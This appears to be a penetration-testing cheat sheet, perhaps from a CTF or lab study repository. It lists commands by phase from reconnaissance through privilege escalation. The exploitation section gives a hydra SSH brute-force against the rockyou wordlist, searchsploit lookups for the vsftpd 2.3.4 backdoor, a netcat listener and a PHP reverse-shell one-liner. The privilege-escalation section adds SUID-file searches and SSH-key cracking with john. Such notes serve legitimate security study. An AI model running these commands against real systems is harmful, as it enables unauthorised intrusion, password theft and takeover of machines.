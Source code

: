 ## Reconnaissance
- command, tool
  - whois
  - nslookup
  - theHarvester
  - Sublist3r

## Enumeration
- nmap -sV -O <target>
- gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http
- smbclient //<target>/anonymous -N
- ftp -n <target>
- command, tool
  - nmap
  - gobuster、nikto
  - nikto
  - wpscan
  - CyberChef


## Exploitation
- hydra -l user -P /usr/share/wordlists/rockyou.txt -f -o found.txt ssh://<target>
- searchsploit vsftpd 2.3.4
- searchsploit -x exploit/unix/remote/17491.txt
- nc -lvnp 12345
- php -r '$sock=fsockopen("<target>",12345);exec("/bin/sh -i <&3 >&3 2>&3");'
- command, tool
  - Metasploit Framework
  - BurpSuite
  - searchsploit,exploit-db
  - hydra


## Privilege Escalation
- id
- python3 -c 'import pty; pty.spawn("/bin/bash")’
- sudo -l
- find / -group $(id -gn) -perm -g=x -type f 2>/dev/null
- find / -user root -perm -u=s -type f 2>/dev/null
- python3 ssh2john.py id_rsa > id_rsa_hash.txt
- john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
- command, tool
  - linpeas
  - pspy
  - sudo -l
  - GTFOBins
  - searchsploit,exploit-db